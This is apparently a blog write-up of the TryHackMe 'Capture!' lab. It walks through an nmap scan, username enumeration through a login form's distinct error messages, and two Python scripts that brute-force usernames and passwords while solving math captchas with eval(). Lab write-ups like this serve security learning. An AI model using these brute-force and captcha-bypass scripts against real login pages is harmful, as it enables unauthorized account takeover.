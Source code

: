 ```yaml
---
title: TryHackMe Writeups | Capture!
date: 2023-05-07 14:40:00 +/-0200
categories: [Tryhackme, Writeups]
tags: [bruteforce, captcha bypass, scripting]
image:
  path: /assets/img/TryhackmeCapture.png
  alt: angstromCTF 2023
---
```



Hello everyone!, here is my write-up for the TryHackMe challenge [Capture!](https://tryhackme.com/room/capture) it revolves around a company called SecureSolaCoders which has developed a new shiny login page! they said their previous one got hacked so easily!? maybe we can easily hack this one too?  **Let's dive into it!**

|  Difficulty  |  Point  | room link |
| :----------: |:-------:|:---------:|
|     3/10     |  30 pt  |    [:)](https://tryhackme.com/room/capture)   |

## 1. Task 1 - General information
---

![Task 1](/assets/img/TryhackmeCapture1.png){: .shadow  }

So downloading the files, we find that it is a zip file containing two lists, a usernames list and passwords list, seems like we have some brute-forcing going on here

## Task 2 - Bypass the login form 
---
![Task 2](/assets/img/TryhackmeCapture2.png){: .shadow  }

So let's start enumerating!

Doing a Nmap scan reveals a webserver running at port 80 (you probably expected this from the challenge description)

```bash
nmap -sC -sV MACHINE_IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 23:51 CAT
Nmap scan report for MACHINE_IP
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```
So we should look at the webpage first

![webserver homepage](/assets/img/TryhackmeCapture3.png){: .shadow  }

Landing on the page, we got redirected to `/login`{:.filepath} route and it displays a login page, if we tried `test/test` credentials, we would notice unique error behavior:

![error upon failed login](/assets/img/TryhackmeCapture4.png){: .shadow  }
_Error: The user 'test' does not exist_

It tells us that __Error: The user 'test' does not exist__! if we looked at [OWASP Auth Guidelines](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html), specifically this section below, we can find that this login form is vulnerable to [discrepancy factor](https://cwe.mitre.org/data/definitions/204.html) attack!

> **Authentication and Error Messages:**<br/>
Incorrectly implemented error messages in the case of authentication functionality can be used for the purposes of user ID and password enumeration. An application should respond (both HTTP and HTML) in a generic manner.
<br/>
**Authentication Responses:**
<br/>
Using any of the authentication mechanisms (login, password reset or password recovery), an application must respond with a generic error message regardless of whether:
<br/>
    1- The user ID or password was incorrect.<br/>
    2- The account does not exist.<br/>
    3- The account is locked or disabled.<br/>
<br/>
The account registration feature should also be taken into consideration, and the same approach of generic error message can be applied regarding the case in which the user exists.
<br/>
The objective is to prevent the creation of a discrepancy factor, allowing an attacker to mount a user enumeration action against the application.
{: .prompt-tip }
So because of this _user doesn't exist_ message, we can try every username from our list with a random password and see which user returns a different error message! 

But we have another problem here, after trying 5 - 10 users the page changes to this:

![Captcha appearence](/assets/img/TryhackmeCapture4.png){: .shadow  }
_Captcha appearence_

They implemented a captcha! now every time we try a new user the page will require us to solve this annoying captcha!!

Luckily for us, it is just a math-based captcha, and who is so good at solving math? Python!

### Solution
---
after the enumeration, we got two tasks to solve:
1. Brute-force every username to find the one that exists, same for passwords
2. Bypass the captcha

this challenge is basically a scripting test, so you **might want to try it on your own first**, but if you want some help here is my script explained

```python
import requests # the most OP library for web scripting!

IP = "MACHINE_IP"
userslist = open("usernames.txt", "r") 

for line in userslist:
    r = requests.post(f'http://{IP}/login', data={'username': 'test','password':'test'}) # This is a request to get the captcha to be displayed on the page since the captcha only appears as a response to a POST request, probably there is a better way to do this idk --_--

    start = '<br>'
    end = '?'
    s = r.text[1800:1900]
    tmp =s[s.find(start)+len(start):s.rfind(end)].replace("=","").replace("\n", "").replace(" ", "") # this is the place the captcha question appears in, most of this jargon is to find the exact place of it and clean it for the eval function
    r2 = requests.post(f'http://{IP}/login', data={'username': line.replace("\n", "").replace(" ", ""),'password':'test','captcha':eval(tmp)}) # one of the tricks that took me some time to figure, is that you need to clean the data from the users file from the new lines (\n) so that it won't get in with the username and falsely temper our usernames

    if "The user" not in r2.text[2070:2135]:# those numbers are  where the error message appears
        print(r2.text[2070:2135])
        break
userslist.close()

# PS: the script expects the site to be in the captcha mode already, so if the script did't work for you it's because you are being a script kiddie:)
```
{: file="capture_username.py" }
So running off the script we get this result

```bash
python capture_username.py
'</strong> Invalid password for user &#39;[REDACTED]&#39;'
```
So we found a username that exists on the system!
now using the same script with some modification, we can brute force the password too!

```python
import requests

IP = "MACHINE_IP"
passwordlist = open("passwords.txt", "r")

for line in passwordlist:
    r = requests.post(f'http://{IP}/login', data={'username': '[REDACTED]','password':'test'})
    start = '<br>'
    end = '?'
    s = r.text[1800:1900]
    tmp =s[s.find(start)+len(start):s.rfind(end)].replace("=","").replace("\n", "").replace(" ", "")
    r2 = requests.post(f'http://{IP}/login', data={'password': line.replace("\n", "").replace(" ", ""),'username':'[REDACTED]','captcha':eval(tmp)}) # same as above except that now we replace the username with the one we found above

    if "Invalid password" not in r2.text[2070:2135]:
        print(r2.text)
        break
passwordlist.close()
```
{: file="capture_password.py" }

running the script and we get our juicy flag!

```bash
python capture_password.py
'<h2>Flag.txt:</h2>'
'<h3>[FLAGTEXT]</h3>'
```

Pretty little fun challenge:") seeing you in another write up!

#### Learned: `Scripting`, `bruteforcing`, `authentication flaws`, `captcha bypass`

